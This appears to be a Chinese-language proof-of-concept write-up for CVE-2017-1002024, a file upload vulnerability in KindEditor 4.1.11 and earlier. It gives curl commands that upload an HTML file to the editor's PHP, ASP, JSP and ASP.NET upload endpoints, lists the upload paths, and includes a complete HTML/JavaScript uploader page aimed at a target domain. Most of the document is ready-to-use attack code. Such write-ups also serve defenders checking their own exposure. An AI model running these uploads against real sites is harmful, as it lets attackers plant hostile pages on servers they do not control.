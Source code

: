 （CVE-2017-1002024）Kindeditor \<=4.1.11 上传漏洞
=================================================

一、漏洞简介
------------

漏洞存在于kindeditor编辑器里，你能上传.txt和.html文件，支持php/asp/jsp/asp.net,漏洞存在于小于等于kindeditor4.1.11编辑器中

二、漏洞影响
------------

Kindeditor \<=4.1.11

三、复现过程
------------

```
curl -F"imgFile=@a.html" http://127.0.0.1/kindeditor/php/upload_json.php?dir=file
curl -F"imgFile=@a.html" http://127.0.0.1/kindeditor/asp/upload_json.asp?dir=file
curl -F"imgFile=@a.html" http://127.0.0.1/kindeditor/jsp/upload_json.jsp?dir=file
curl -F"imgFile=@a.html" http://127.0.0.1/kindeditor/aspx/upload_json.aspx?dir=file 
​```返回值为路径 
```



> json文件地址

    /asp/upload_json.asp
    
    /asp.net/upload_json.ashx
    
    /jsp/upload_json.jsp
    
    /php/upload_json.php

> 上传路径

    kindeditor/asp/upload_json.asp?dir=file
    
    kindeditor/asp.net/upload_json.ashx?dir=file
    
    kindeditor/jsp/upload_json.jsp?dir=file
    
    kindeditor/php/upload_json.php?dir=file

> 查看版本信息

    http://www.0-sec.org/kindeditor//kindeditor.js

![](./resource/(CVE-2017-1002024)Kindeditor<=4.1.11上传漏洞/media/rId24.jpg)

> 构造poc

    <html><head>
    <title>Uploader</title>
    <script src="http://www.0-sec.org/kindeditor//kindeditor.js"></script>
    <script>
    KindEditor.ready(function(K) {
    var uploadbutton = K.uploadbutton({
    button : K(‘#uploadButton‘)[0],
    fieldName : ‘imgFile‘,
    url : ‘http://www.0-sec.org/kindeditor/jsp/upload_json.jsp?dir=file‘,
    afterUpload : function(data) {
    if (data.error === 0) {
    var url = K.formatUrl(data.url, ‘absolute‘);
    K(‘#url‘).val(url);}
    },
    });
    uploadbutton.fileBox.change(function(e) {
    uploadbutton.submit();
    });
    });
    </script></head><body>
    <div>
    <input class="ke-input-text" type="text" id="url" value="" readonly="readonly" />
    <input type="button" id="uploadButton" value="Upload" />
    </div>
    </body>
    </html>
